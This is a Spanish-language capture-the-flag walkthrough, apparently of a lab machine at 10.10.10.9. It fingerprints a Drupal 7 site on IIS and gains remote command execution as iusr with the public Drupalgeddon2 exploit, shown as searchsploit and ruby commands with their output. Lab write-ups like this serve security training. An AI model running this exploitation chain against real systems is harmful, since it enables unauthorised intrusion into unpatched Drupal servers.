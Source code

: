 ## RECONOCIMIENTO WEB
 
Iniciamos con el reconocimiento del servicio `web` donde inicialmente, por medio de la utilidad `whatweb` enumeramos información de librerías, gestores de contenido, entre otros.

```bash
whatweb 10.10.10.9
```
```bash
#OUTPUT
http://10.10.10.9 [200 OK] Content-Language[en], Country[RESERVED][ZZ], Drupal, HTTPServer[Microsoft-IIS/7.5], IP[10.10.10.9], JQuery, MetaGenerator[Drupal 7 (http://drupal.org)], Microsoft-IIS[7.5], PHP[5.3.28,], PasswordField[pass], Script[text/javascript], Title[Welcome to 10.10.10.9 | 10.10.10.9], UncommonHeaders[x-content-type-options,x-generator], X-Frame-Options[SAMEORIGIN], X-Powered-By[PHP/5.3.28, ASP.NET]
```

## RCE POR DRUPAGEDDON2

Hacemos uso de `searchsploit` buscando potenciales maneras de intrusión por medio de la explotación de `Drupal 7.x`.

```bash
searchsploit drupal 7.x
```

```bash
#OUTPUT
Drupal < 7.58 / < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution	| php/webapps/44449.rb
```

Vamos a ubicarnos en la carpeta `exploit` y a descargar el exploit `php/webapps/44449.rb`.

```bash
cd ../exploit
searchsploit -m php/webapps/44449.rb
```

Ejecutamos el exploit agregando únicamente el objetivo en cuestión, sin embargo, se debe instalar la gema `highline` para que funcione correctamente y obtener una ejecución remota de comandos como el usuario `iusr`

```bash
sudo gem install highline
ruby 44449.rb http://10.10.10.9
```

```bash
#OUTPUT
drupalgeddon2>> whoami
nt authority\iusr
```

## RCE POR CVE-2018-7600
